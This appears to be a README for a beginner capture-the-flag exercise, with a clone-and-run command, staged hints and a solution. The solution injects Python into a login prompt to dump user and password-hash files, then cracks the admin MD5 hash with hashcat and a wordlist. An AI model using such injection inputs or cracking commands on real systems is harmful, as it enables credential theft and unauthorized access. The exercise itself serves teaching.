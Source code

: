 # To get started

run this command:
```shell
git clone https://github.com/HaavardVS/CTF.git && cd CTF && cd test && clear && python3 main.py
```

if you exit, and want to try again, enter this command:

```shell
python3 main.py
```
*scroll down for hints*

---




##### Hints:
.
.
.
.
.
.
.
.
.
1. Maybe some of the users name is Jason.
.
.
.
.
.
.
.
.
.
2. I must admint there are many users.
.
.
.
.
.
.
.
.
.
3. what do you get if you give a markdown file a high five?
.
.
.
.
.
.
.
.
.
Scroll down for solution
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
##### Solution:

1. enter this string in the user input:
```python
print(open('users.json').read()); print(username)
```
this will print out all the users. Find the admin user.


2. enter this string in the user input:
```python
print(open('passwords.json').read()); print(username)
```
this will print out all the hashed passwords for the users. Find the admin hash.


3. Dehash the admin hash. Here is an example using hashcat:
```shell
hashcat -m 0 -a 0 -o cracked.txt 21232f297a57a5a743894a0e4a801fc3 /usr/share/wordlists/rockyou.txt.gz | cat cracked.txt
```
